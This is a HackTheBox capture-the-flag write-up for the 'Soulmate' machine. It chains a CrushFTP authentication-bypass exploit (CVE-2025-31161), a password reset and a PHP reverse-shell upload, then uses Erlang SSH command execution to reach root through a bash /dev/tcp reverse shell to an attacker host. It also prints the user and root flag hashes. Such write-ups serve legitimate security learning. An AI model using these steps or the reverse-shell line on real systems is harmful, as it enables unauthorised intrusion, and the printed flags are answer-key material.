










# Soulmate

> Platform: HackTheBox
>
> Created by: [kavigihan](https://app.hackthebox.com/users/389926)
>
> Difficulty: Easy
>
> Status: Season 8.5 Machine


## 🔗 Overview

_[Soulmate](https://app.hackthebox.com/machines/Soulmate) presents a challenge where the main site <code>soulmate.htb</code> looks like a basic registration/login system. However, <code>vhost</code> enumeration revealed a hidden subdomain <code>ftp.soulmate.htb</code> hosting a **CrushFTP instance**. Using the **authentication bypass vulnerability CVE-2025-31161**, we created a new user and gained access to the CrushFTP admin panel. This allowed **resetting the password for the legitimate user <code>ben</code>**, who had access to upload files to the web root. Uploading a PHP reverse shell led to a foothold as <code>www-data</code>._

_Further enumeration uncovered an **Erlang-based SSH backdoor (start.escript)** with hardcoded credentials for <code>ben</code>. Logging in via SSH provided the user flag. Privilege escalation came from exploiting the **Erlang/OTP SSH daemon running locally on port 2222**, which allowed **command execution as root**, ultimately yielding the root flag._


**⚡ Path:**

Subdomain enum → **CrushFTP** (<code>ftp.soulmate.htb</code>) → **CVE-2025-31161** auth bypass → admin panel → reset <code>ben</code>'s password → webshell as <code>www-data</code> → Erlang script with **creds** → SSH as <code>ben</code> → **Erlang SSH daemon RCE** → <code>root</code>.


## 🔍 Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nmap -sVSC <MACHINE-IP> -T4 -Pn -n -vvv -oA soulmatescan
Nmap scan report for <MACHINE-IP>
Host is up, received user-set (0.027s latency).
Scanned at 2025-09-08 00:05:28 +08 for 11s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://soulmate.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like the port <code>22</code> and port <code>80</code> are open.

Also make sure to add the <code>soulmate.htb</code> inside our hosts file:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ sudo nano /etc/hosts 

# in /etc/hosts (for linux)
<MACHINE-IP>    soulmate.htb
```

Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ gobuster dir -u http://soulmate.htb/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soulmate.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://soulmate.htb/assets/]
/index.php            (Status: 200) [Size: 16688]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

When opening the web page, we can try to register our account and start to look what we can do.


After login to our account, it looks like there isnt any potential exploit here:



I have tried to exploit the basic file upload vulnerabilities, but it seems to not working here.

Let's try to enumerate more the subdomains for the page:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ gobuster vhost -u http://soulmate.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 4989 / 4989 (100.00%)
===============================================================
Finished
===============================================================
```

Looks like there is another subdomain of the page, add the subdomain in the hosts file first then we can try to access the subdomain:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ sudo nano /etc/hosts 

# in /etc/hosts (for linux)
<MACHINE-IP>    soulmate.htb ftp.soulmate.htb
```



Viewing the source code, we found out some clues which might be the version for the <code>CrushFTP</code>:




## ⚔️ Exploitation

Try to check the <code>CrushFTP</code> if it is vulnerable to the recents CVE. I found the [CVE-2025-31161](https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation) which we might able to use. The notes said that this CVE was published on <code>March 26</code>:



Searching using <code>searchsploit</code> also reveals the exploit for the authentication bypass:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ searchsploit crushftp          
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CrushFTP 11.3.1 - Authentication Bypass                    | multiple/remote/52295.py
CrushFTP 7.2.0 - Multiple Vulnerabilities                  | multiple/webapps/36126.txt
CrushFTP < 11.1.0 - Directory Traversal                    | multiple/remote/52012.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Searching for the POC scripts, I come up with this POC script by [Immersive-Labs-Sec GitHub](https://github.com/Immersive-Labs-Sec/CVE-2025-31161):




So, we might able to use this exploit. Download the POC scripts:
```
┌──(kali㉿kali)-[~/upload]
└─$ git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
Cloning into 'CVE-2025-31161'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 9 (delta 3), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 6.02 KiB | 6.02 MiB/s, done.
Resolving deltas: 100% (3/3), done.

┌──(kali㉿kali)-[~/upload]
└─$ cd CVE-2025-31161
```

Now, try to exploit the <code>CrushFTP</code> service using the exploit (make sure to set the port to <code>80</code>, as the default is <code>8080</code>):
```
┌──(kali㉿kali)-[~/upload/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user test --password test123
[+] Preparing Payloads
  [-] Warming up the target
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: test
   [*] Password: test123.
```

Try to login to the page with the newly created credentials:



Try to go to the Admin dashboard:



In the User Manager panel, we found out the other user of the <code>CrushFTP</code> service. Viewing the user <code>ben</code>, we found that the <code>user</code> ben having the <code>webProd</code> folder:



We also able to change the password for the user <code>ben</code> here. Try to change the password, then login to the page with the new <code>ben</code>'s password:



As user <code>ben</code>, we are able to upload our files to the <code>webProd</code> directory. We can try to upload our PHP reverse shell scripts here:



Then, make sure to set a listener for the reverse shell:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp <LISTENER-PORT>
listening on [any] <LISTENER-PORT> ...
```

In the <code>soulmate.htb</code> page, try to access the reverse shell script to trigger the reverse shell:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<MACHINE-IP>] 60756
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 07:32:09 up 1 min,  0 users,  load average: 0.65, 0.37, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soulmate:/$
```

Now, we can try to search for any potential lateral movement. I also tried to use <code>linpeas</code> to ease up the process:
```
╔══════════╣ Executable files potentially added by user (limit 70)
...                                  
2025-08-15+07:46:57.3585015320 /usr/local/lib/erlang_login/start.escript
...
```

We found out the credentials for user <code>ben</code> is hardcoded inside the file. We can try to **SSH** to the server as user <code>ben</code> and get the <code>user.txt</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ ssh ben@<MACHINE-IP> 
ben@<MACHINE-IP>'s password: 
Last login: Mon Sep 8 07:42:01 2025 from <ATTACKER-IP>
ben@soulmate:~$
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b><code>786d8968816f98db6bd6f0093d0d629b</code></b>
</details><br>


## 💀 Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
ben@soulmate:~$ sudo -l
[sudo] password for ben: 
Sorry, user ben may not run sudo on soulmate.
ben@soulmate:~$ 
```

From the previous file that we found, it is about <code>erlang</code>. I found out that we can exploit the <code>erlang</code> services with RCE. Can read [here](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce). So, the plan here is to create another reverse shell in the <code>erlang</code> service (dont forget the **"."** at the end):
```
ben@soulmate:~$ ssh ben@localhost -p 2222
(ssh_runner@soulmate)1> os:cmd("bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1'").
```

```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<MACHINE-IP>] 48002
bash: cannot set terminal process group (93513): Inappropriate ioctl for device
bash: no job control in this shell
root@soulmate:/# ls /root
ls /root
root.txt
scripts
root@soulmate:/# cat /root/root.txt
cat /root/root.txt
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b><code>366610ce59bab8f91b303de28de5021e</code></b>
</details><br>


## 📌 Final Thoughts

Thank you for reading my writeups. Based, on this machine, I leant that we must try to enumerate the other subdomains of the server to reveal some hidden secrets.


## 📚 References:

- CrushFTP CVE-2025-31161 Auth Bypass and Post-Exploitation - https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation

- Proof of Concept for CVE-2025-31161 / CVE-2025-2825 - https://github.com/Immersive-Labs-Sec/CVE-2025-31161

- Reverse Shell Generator - https://www.revshells.com/

- CVE-2025-32433: Pre-Auth RCE in Erlang/OTP SSH Server - https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce